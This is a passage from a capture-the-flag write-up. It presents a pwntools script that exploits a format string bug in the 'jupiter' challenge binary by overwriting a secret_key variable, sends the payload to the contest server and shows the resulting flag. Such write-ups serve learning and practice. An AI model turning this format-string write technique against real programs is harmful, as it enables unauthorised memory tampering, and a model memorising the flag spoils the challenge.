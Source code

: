 
## Exploit Script

The final Python script uses `pwntools` to automate the entire process, from finding the address to generating and sending the payload.

```python
# exploit.py
# Author: foqs & Gemini
# To run: python3 exploit.py

from pwn import *

# The offset determined by sending a '%p' chain and finding our input's position
offset = 5

# Provide the binary's context to pwntools.
# This is a critical step for generating a correct payload for the 64-bit architecture.
context.binary = elf = ELF('./jupiter')

# Automatically get the target variable's address from the ELF file
secret_key_addr = elf.symbols['secret_key']
value_to_write = 0x1337c0de

# Create a dictionary specifying what address to write what value to
writes = {secret_key_addr: value_to_write}

# Pwntools automatically generates the complex Format String payload
payload = fmtstr_payload(offset, writes)

log.info(f"Using offset: {offset}")
log.info(f"Address of secret_key: {hex(secret_key_addr)}")
log.info(f"Generated payload (length {len(payload)}):")
print(payload)

# Connect to the remote challenge server
p = remote('chal.sunshinectf.games', 25607)

# Send the payload after receiving the prompt
p.sendlineafter(b'risk: ', payload)

# Switch to interactive mode to receive the flag
p.interactive()

```

**Result (Flag)**

When the script is executed, the payload successfully overwrites the `secret_key` variable, satisfies the condition, and the program prints the flag.

`sun{F0rmat_str!ngs_4re_sup3r_pOwerFul_r1gh7??}`

---
